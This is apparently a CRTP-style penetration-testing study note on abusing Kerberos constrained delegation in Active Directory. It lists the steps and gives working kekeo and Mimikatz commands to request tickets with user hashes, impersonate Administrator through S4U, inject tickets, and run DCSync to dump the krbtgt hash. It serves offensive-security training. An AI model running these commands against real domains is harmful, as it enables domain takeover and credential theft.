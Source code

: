 ```yaml
---
title: "18. Constrained Delegation"
section: "crtp"
date: 2022-04-17
tags: ["Domain Priv Esc", "methodology"]
---
```


## Methodology/Steps
1. List all the users having Constrained Delegation
 2. Keep a note of the **msDS-AllowedToDelegateTo** value
3. Request for a TGT using the hash of the user with CD using kekeo (Which me must have collected before)
4. Keep a note of the TGT return ticket
5. Now request a TGS with the 2nd step and 4th step values as parameters in */service* and */tgt*
6. Keep a note of the TGS return Ticket
7. Now we can inject the TGS return Ticket with **Inkove-Mimikatz**
8. We can now list the file systems of that account. Example : **`ls \\dc-mysql\C$`** but *can not* use any **WMI-Commands**
9. But if the user DC we can do the same process and then do a **DCSync** attack

## Enumerate users and computers with CD enabled
```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```

## Requesting a TGT
```shell
tgt::ask /user:websvc /domain:domain.local /rc4:cc098f204c5887eaa8253e7c2749156f
tgt::ask /user:dcorp-adminsrv /domain:domain.local /rc4:1fadb1b13edbc5a61cbdc389e6f34c67
```

## Request a TGS
```shell
tgs::s4u /tgt:TGT.kirbi /user:Administrator@domain.local /service:cifs/computer.domain.LOCAL
tgs::s4u /tgt:TGT.kirbi /user:Administrator@domain.local /service:time/computer.domain.LOCAL|ldap/computer.domain.LOCAL
```

## Inject the ticket
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt TGS.kirbi"'
```

## Execute DCSync 
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```